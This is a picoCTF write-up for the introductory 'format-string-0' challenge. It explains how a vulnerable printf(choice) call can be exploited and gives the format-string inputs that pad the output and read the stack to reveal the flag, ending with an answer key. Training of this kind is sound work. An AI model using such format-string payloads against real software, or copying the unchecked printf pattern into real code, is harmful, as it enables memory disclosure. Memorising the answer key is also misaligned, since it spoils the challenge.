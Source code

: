 # format-string-0
picoCTF Link: [https://play.picoctf.org/practice/challenge/433](https://play.picoctf.org/practice/challenge/433)

## About

```
Description:
Can you use your knowledge of format strings to make the customers happy?

Hints:
1. This is an introduction of format string vulnerabilities. Look up "format specifiers" if you have never seen them before.
2. Just try out the different options
```

## Solution

This challenge is only to get familiar with the string formats.

The first question expect an answer where the length of the string chosen is two times longer than the size of the input buffer.

```c
int count = printf(choice1);
if (count > 2 * BUFSIZE) {
    serve_bob();
} else {
    printf("%s\n%s\n",
            "Patrick is still hungry!",
            "Try to serve him something of larger size!");
    fflush(stdout);
}
```

Since `%114d` in this case is used to pad nothing with 114 whitespaces, it adds 114 character for a total of 123 characters, which is way more than 2 * 32.

```
Welcome to our newly-opened burger place Pico 'n Patty! Can you help the picky customers find their favorite burger?
Here comes the first customer Patrick who wants a giant bite.
Please choose from the following burgers: Breakf@st_Burger, Gr%114d_Cheese, Bac0n_D3luxe
Enter your recommendation: Gr%114d_Cheese
```

Then, we want to read from the stack many times (until we print the flag), and the options that do that is the `Cla%sic_Che%s%steak` option.

```
Sponge Bob wants something outrageous that would break the shop (better be served quick before the shop owner kicks you out!)
Please choose from the following burgers: Pe%to_Portobello, $outhwest_Burger, Cla%sic_Che%s%steak
Enter your recommendation: Cla%sic_Che%s%steak
```

## Answer

```
Enter your recommendation: Gr%114d_Cheese
Enter your recommendation: Cla%sic_Che%s%steak
```